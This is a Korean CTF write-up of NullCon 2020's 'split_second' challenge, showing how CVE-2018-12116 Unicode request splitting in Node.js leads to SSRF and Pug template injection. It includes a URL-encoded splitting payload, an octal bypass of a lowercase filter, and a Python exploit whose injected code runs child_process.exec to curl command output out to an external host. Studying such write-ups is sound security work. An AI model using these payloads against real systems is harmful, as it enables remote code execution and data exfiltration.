


이번에 TeamMODU에서 다른 형이 발표한 **[NullCon_2020-split_second](https://github.com/nullcon/hackim-2020/tree/master/web/split_second)** 문제의 WriteUp를 보며 신기하고 재미있어 보여서 한번 공부를 해봤습니다.

> ## [CVE-2018-12116](https://www.cvedetails.com/cve/CVE-2018-12116/)
>
> 대상 : Node.js: All versions prior to Node.js 6.15.0 and 8.14.0
>
> 위협 : HTTP request splitting
>
> Node.Js가 정상적이지 않은 유니코드 데이터를 path 옵션으로 HTTP request을 받아들이면 그 데이터는 다른 데이터로 변환되어 작동하게 됩니다. 이점을 이용하여 HTTP request split이 실행 됩니다.
>
> ex)
>
> \\u{01F436} = 🐶 \| server -> \\x36 = 6
>
> \\u{010D} = č \| server -> \\x0d = \\r
>
> \\u{010A} = Ċ \| server -> \\x0a = \\n

일단 취약점의 정보는 간단하게 위의 내용과 같습니다. 이러한 취약점이 어떻게 작동하는지 **[NullCon_2020-split_second](https://github.com/nullcon/hackim-2020/tree/master/web/split_second)** 문제를 예제로 설명 하겠습니다.

**[NullCon_2020-split_second](https://github.com/nullcon/hackim-2020/tree/master/web/split_second)**

## \- WriteUp

문제를 보면 일단 dirburster를 이용하여 탐색을 합니다.

탐색 된 목록//source/getMeme/flag/core

이때 /source에 접근을 하게 되면 소스에 대해 노출을 해줍니다.

```js
//node 8.12.0
var express = require("express")
var app = express()
var fs = require("fs")
var path = require("path")
var http = require("http")
var pug = require("pug")

app.get("/", function (req, res) {
  res.sendFile(path.join(__dirname + "/index.html"))
})

app.get("/source", function (req, res) {
  res.sendFile(path.join(__dirname + "/source.html"))
})

app.get("/getMeme", function (req, res) {
  res.send(
    '<iframe src="https://giphy.com/embed/LLHkw7UnvY3Kw" width="480" height="480" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/kid-dances-jumbotron-LLHkw7UnvY3Kw">via GIPHY</a></p>'
  )
})

app.get("/flag", function (req, res) {
  var ip = req.connection.remoteAddress
  if (ip.includes("127.0.0.1")) {
    var authheader = req.headers["adminauth"]
    var pug2 = decodeURI(req.headers["pug"])
    var x = pug2.match(/[a-z]/g)
    if (!x) {
      if (authheader === "secretpassword") {
        var html = pug.render(pug2)
      }
    } else {
      res.send("No characters")
    }
  } else {
    res.send("You need to come from localhost")
  }
})

app.get("/core", function (req, res) {
  var q = req.query.q
  var resp = ""
  if (q) {
    var url = "http://localhost:8081/getMeme?" + q
    console.log(url)
    var trigger = blacklist(url)
    if (trigger === true) {
      res.send("<p>Errrrr, You have been Blocked</p>")
    } else {
      try {
        http.get(url, function (resp) {
          resp.setEncoding("utf8")
          resp.on("error", function (err) {
            if (err.code === "ECONNRESET") {
              console.log("Timeout occurs")
              return
            }
          })

          resp
            .on("data", function (chunk) {
              resps = chunk.toString()
              res.send(resps)
            })
            .on("error", (e) => {
              res.send(e.message)
            })
        })
      } catch (error) {
        console.log(error)
      }
    }
  } else {
    res.send("search param 'q' missing!")
  }
})

function blacklist(url) {
  var evilwords = [
    "global",
    "process",
    "mainModule",
    "require",
    "root",
    "child_process",
    "exec",
    '"',
    "'",
    "!",
  ]
  var arrayLen = evilwords.length
  for (var i = 0; i < arrayLen; i++) {
    const trigger = url.includes(evilwords[i])
    if (trigger === true) {
      return true
    }
  }
}

var server = app.listen(8081, function () {
  var host = server.address().address
  var port = server.address().port
  console.log("Example app listening at http://%s:%s", host, port)
})
```

여기서 보면 flag에 접근을 해야 하는데 일단 localhost에서 접근을 해야 하는 것을 볼 수 있습니다.

이때 `req.connection.remoteAddress;` 을 통해 받고 있기 때문에 `x-forwarded-for` 와 같은 헤더로는 공격이 불가능한 것을 확인할 수 있습니다.

```js
//node 8.12.0
app.get('/core', function(req, res) {
    var q = req.query.q;
    var resp = "";
    if (q) {
        var url = 'http://localhost:8081/getMeme?' + q
```

source에서 보이는 주석에서 알려 주는 nodejs 버전과 /core에서 받아 들이는 q= 파라미터에서 url parse 취약점을 이용하여 ssrf가 가능해 보입니다.

> #### [참고 \- HTTP Request Splitting](https://capec.mitre.org/data/definitions/105.html), [SSRF via Request Splitting](https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/) , [유니코드 정보](https://en.wikipedia.org/wiki/List_of_Unicode_characters)
>
> HTTP Request에 double CR/LF characters으로 변환되는 유니코드를 url 포맷에 맞춰 (
>
> %C4%8D%C4%8A)를 HTTP header에 넣음으로 request을 split! 합니다.

```
http://27.96.135.144:8081/core?q=test%C4%A0HTTP%2F1.1%C4%8D%C4%8AHOST%3A%C4%A0127.0.0.1%C4%8D%C4%8A%C4%8D%C4%8AGET%C4%A0%2Fflag%C4%A0HTTP%2F1.1%C4%8D%C4%8AHOST%3A%C4%A0127.0.0.1%C4%8D%C4%8Aadminauth%3A%C4%A0secretpassword%C4%8D%C4%8Apug%3A%C4%A0123%C4%8D%C4%8Atest%3A
```

이제 서버에서는 url이 이런 형태로 parse 시켜서 이해 하게 됩니다.

```http
GET /core?q=test HTTP/1.1
HOST: 127.0.0.1

GET /flag HTTP/1.1
HOST: 127.0.0.1
adminauth: secretpassword
pug: 123
test: ~~~~ 원래 전달 되야 하는 request를 test의 헤더로 무시
```

그리고 실제로 서버에서 이런 형태로 로그를 보여 주는 것을 확인 할 수 있습니다.



이제 flag 쪽 소스를 분석 합니다.

```js
app.get("/flag", function (req, res) {
  var ip = req.connection.remoteAddress
  if (ip.includes("127.0.0.1")) {
    var authheader = req.headers["adminauth"]
    var pug2 = decodeURI(req.headers["pug"])
    var x = pug2.match(/[a-z]/g)
    if (!x) {
      if (authheader === "secretpassword") {
        var html = pug.render(pug2)
      }
    } else {
      res.send("No characters")
    }
  } else {
    res.send("You need to come from localhost")
  }
})
```

일단 첫 번째 조건인 접근 IP가 127.0.0.1 이여야 한다는 점 그리고 adminauth: secretpassword 형태의 header가 달려있어야 한다는 두 가지 조건은 해결이 되었습니다.

이제 pug헤더에 영문이 없어야 하고 이것이 지켜 졌을 때 pug를 이용하여 렌더링을 시켜 주게 되는데 일단 pug가 무엇 인지 찾아 봅니다.

> # Code
>
> Pug allows you to write inline JavaScript code in your templates. There are three types of code: Unbuffered, Buffered, and Unescaped Buffered.

javascript와 pug 문법을 이용하여 간결하게 html을 렌더링 하게 도와주는 것으로 보입니다. 이때 js를 이용하여 렌더링 한다는 것을 이용하여 공격을 해봅니다.

또한 blackList 체크 항목에 있는 **["global", "process","mainModule","require","root","child\_process","exec",""","'","!"]** 을 이용하여 공격을 하면 될 것 같습니다.

```
-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl http://devjs.cf:8089/cookie.php -X POST -d c=`ls | grep flag` '))")()
```

대략 이런형태로 내가 원하는 명령어를 보내고 그다음 서버에서 다시한번 처리를 하고 저의 서버로 전송하도록 하였습니다.

이제 우회를 시키는 스크립트를 작성합니다.

일단 pug 헤더에 담긴 공격 payload가 영문 소문자가 포함이 되었는지 확인 하는 루틴이 있는데 이것은 8진법으로 변환하여 우회해봅니다.

```js
def changeOct(str):
    r=""
    for i in str:
        if i>='a'and i<='z':
            r+='\\'+oct(ord(i))[2:]
        else:
            r+=i
    return r
```

그리고 이제 payload 부분을 쉽게 제작 할 수 있도록 우회 문자를 상수로 선언하여 작성합니다.

```
SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

payload = "test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF*2+"GET"+SPACE+SLASH+"flag"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"adminauth:"+SPACE+"secretpassword"+CRLF+"pug:"+SPACE+공격 PUG 값이 들어올 자리+CRLF+"test:"+SPACE
```

이제 이러한 스크립트를 결합하여 일단 현재 경로에 무엇이 있는지 확인 해봅니다.

```js
import requests
from requests.utils import quote

def changeOct(str):
    r=""
    for i in str:
        if i>='a'and i<='z':
            r+='\\'+oct(ord(i))[2:]
        else:
            r+=i
    return r

SPACE = "Ġ"
CRLF = "čĊ"
SLASH = "į"

pug = changeOct('''-[]["constructor"]["constructor"]("console.log(this.process.mainModule.require('child_process').exec('curl http://devjs.cf:8089/cookie.php -X POST -d c=`ls | grep flag` '))")()''').replace('"','%22').replace("'","%27")
print (quote(pug)) #url-encoding

payload = "test"+SPACE+"HTTP"+SLASH+"1.1"+CRLF*2+"GET"+SPACE+SLASH+"flag"+SPACE+"HTTP"+SLASH+"1.1"+CRLF+"HOST:"+SPACE+"127.0.0.1"+CRLF+"adminauth:"+SPACE+"secretpassword"+CRLF+"pug:"+SPACE+pug+CRLF+"test:"+SPACE

res=requests.get('http://devjs.cf:8081/core?q='+quote(payload))
print (res.url)

```

이제 스크립트를 실행해서 flag 문자열이 포함한 결과 값이 있는지 확인 합니다.



flag.txt 파일이 현재 경로에 있는 것을 볼 수 있습니다.

이제 출력 해봅니다.


> FLAG : hackim20{You_must_be_1337_in_JavaScript!}
